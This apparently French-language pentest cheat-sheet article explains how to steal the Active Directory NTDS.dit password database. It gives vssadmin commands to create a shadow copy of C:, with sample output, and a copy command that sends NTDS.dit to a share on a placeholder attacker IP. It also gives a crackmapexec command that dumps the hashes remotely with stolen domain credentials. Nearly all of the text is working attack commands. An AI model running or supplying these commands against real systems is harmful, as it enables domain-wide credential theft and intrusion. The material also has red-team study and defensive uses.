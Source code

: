```yaml
---
public: true # set to true to make the article publishable
---
```


## Localement

### Créer une Shadow Copy (cliché instantanné) du disque C:

La base NTDS.dit est par défaut stockée dans `C:\Windows\NTDS`

```
vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

### Copier à partir du cliché instantanné
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit \\<Attacker_IP>\share\
```


## A distance
```
crackmapexec smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --ntds
```